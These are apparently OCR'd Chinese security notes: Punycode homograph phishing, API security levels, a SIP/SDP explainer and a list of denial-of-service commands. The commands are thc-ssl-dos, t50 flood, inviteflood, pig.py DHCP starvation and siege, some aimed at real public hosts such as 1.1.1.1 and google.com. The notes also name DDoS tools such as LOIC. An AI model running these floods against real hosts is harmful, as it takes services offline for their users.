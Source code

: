 Punycode 网络钓鱼：
制造“同形异义字”伪装。它的原理是这样的，西里尔语里的 ａ和英文里的 a都是A，且看起来差不多，但是计算机会把他们当成不同的字符对待。

API安全等级:
1. 完全开放的接口
2. 接口参数加密（基础加密）
3. 接口参数加密+接口时效性验证
4. 接口参数加密+时效性验证+私钥
5. 接口参数加密+时效性验证+私钥+Https

Renegotiating机制让攻击者可以在一个TCP连接中不停的快速重新协商

500 并发，只针对Renegotiating enable开启的情况
thc-ssl-dos -l 500 1.1.1.1 443 --accept
 
路由协议攻击
t50 10.1.1.1/24 --flood
 
使用接口eth0 并且提供5000用户,使用100个包向目标域名(example.local) 和泛洪主机(192.168.1.5) 进行泛洪攻击。 
inviteflood eth0 5000 example.local 192.168.1.5 100
>会话发起协议（Session Initiation Protocol，缩写SIP）
会话描述协议（Session Description Protocol或简写SDP）描述的是流媒体的初始化参数。
SIP与H.323一样，是用于VoIP最主要的信令协议之一。SIP最初由IETF标准化和管理，而H.323VoIP协议则从传统上与ITU有着更多的联系。
SIP的设计目标之一是提供类似公用交换电话网（PSTN）中呼叫处理功能的扩展集。在这个扩展集中，实现类似日常电话的操作：拨号，振铃，回铃音或者忙音，只是实现方式和术语有所不同。
SIP也实现了许多七号信令系统(SS7)中更高级的呼叫处理功能，尽管这两个协议相差很远。SS7是一个高度集中处理的协议，其特点表现为高复杂度的中心网络结构和无智能的哑终端(传统的电话机)。SIP则是一个点对点协议，所以它只需要一个相对简单的(因此也高度可扩展的)核心网络，而将处理工作下放给连接在网络边缘的智能端点(装有硬件或软件的终端设备)。SIP的许多功能在端点中实现，这与传统的SS7将其在网络核心设备实现的作法大异其趣。
SIP同HTTP相似并采用了后者的一些设计原则：SIP报文是人类可读的，并且也是采取请求-应答的流程。SIP借用了许多HTTP状态码，如常见的'404 not found'。
SDP用于和RTSP以及SIP协同工作，也可被单独用来描述多播会话。

DHCPing攻击
pig.py 

web压力测试:
siege -c 200 -r 100 http://www.google.com
蓝天CC攻击器
HttpDdos2.0
LOIC